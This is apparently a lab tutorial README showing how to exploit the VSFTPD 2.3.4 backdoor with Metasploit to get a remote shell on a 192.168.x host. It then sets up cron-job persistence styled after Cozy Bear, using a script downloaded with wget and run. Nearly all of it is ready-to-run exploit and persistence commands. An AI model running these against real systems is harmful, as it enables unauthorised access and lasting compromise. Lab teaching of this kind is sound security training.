## Metasplot Demo

In this tutorial, we will demonstrate how to use Metasploit to exploit a vulnerable VSFTPD server. The steps outlined below correspond to the commands provided, and we'll go through each one in order.

### 1. Scan the target with nmap:

Before starting the exploit, it's essential to gather information about the target. Use nmap to scan the target IP (192.168.101.54) for open ports and services:

```
nmap 192.168.101.54
```

If the scan results show that port 21 (FTP) is open, you can proceed to the next step.

### 2. Connect to the FTP service using netcat:

Use the following command to connect to the target IP's FTP service and check if it is running a vulnerable version of VSFTPD:

```
nc 192.168.101.54 21
```

If you see a response indicating that VSFTPD 2.3.4 is running, continue to the next step.

### 3. Start Metasploit:

Launch the Metasploit console by running the following command:

```
msfconsole
```

### 4. Search for the VSFTPD exploit:

In the Metasploit console, search for the VSFTPD exploit by running:

```
search vsftp
```

The search results should show the exploit/unix/ftp/vsftpd_234_backdoor module.

### 5. Use the exploit module:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

### 6. List available payloads:

The command you provided, set payload 0, is incorrect. Instead, use the following command to list available payloads:

```
show payloads
```

Choose a payload from the list, such as cmd/unix/interact.

### 7. Set the payload:

```
set payload cmd/unix/interact
```

### 8. Show and set module options:

Use the following commands to show the module options, set the RHOSTS option, and verify the settings:

```
show options
```
```
set RHOSTS 192.168.101.54
```
```
show options
```

### 9. Run the exploit:

```
exploit
```

If the exploit is successful, you should receive a command shell on the target system.

### 10. Check the user context:

Run the following command to see the user context of the shell:

```
whoami
```

This will show the username of the account that the shell is running under.

Now we will demonstrate how Cozy Bear employs stealthy persistence techniques to maintain access to compromised systems. 

We will be focusing on creating a cron job that will execute a benign script at specified intervals or upon system startup.

Create a new file called create_cronjob.sh and copy the script content into it. Save the file and make it executable using chmod +x create_cronjob.sh.

```
wget https://raw.githubusercontent.com/jamesvthompson/demo/main/create_cronjob.sh
chmod +x create_cronjob.sh
```

Run the script with ./create_cronjob.sh. This will create the benign script (benign_cronjob.sh), make it executable, and set up a cron job to run it every minute.

Monitor the /tmp/cronjob.log file for updates by running tail -f /tmp/cronjob.log.

